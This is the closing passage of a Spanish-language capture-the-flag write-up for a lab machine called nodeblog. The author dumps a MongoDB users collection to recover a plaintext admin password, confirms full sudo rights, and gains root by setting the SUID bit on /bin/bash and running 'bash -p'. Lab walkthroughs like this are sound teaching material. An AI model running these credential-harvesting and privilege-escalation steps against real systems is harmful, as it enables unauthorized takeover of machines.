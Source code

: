 Despues usamos **find()** para mostar todo el contenido de la coleccion **users**

```ruby
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

Podemos ver que las credenciales para el usuario admin es **IppsecSaysPleaseSubscribe**

Si recordamos anteriormente, cuando listamos que podiamos ejecutar a nivel de sudoers, nos pedia una contraseña para el usuario admin, asi que ahora usaremos el **sudo -l** y la contraseña sera la que acabamos de sacar:

```ruby
[sudo] password for admin: 
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

Podemos ver que como el usuario admin podemos ejecutar lo que sea, asi que simplemente podemos darle permisos SUID la bash y luego ejecutar un **bash -p** y ya seriamos root

```ruby
sudo chmod u+s /bin/bash
```

```ruby
bash -p
```

```ruby
admin@nodeblog:/home$ sudo chmod u+s /bin/bash
admin@nodeblog:/home$ bash -p
bash-5.0# whoami
root
bash-5.0#
```
Eso ha sido todo, gracias por leer ❤
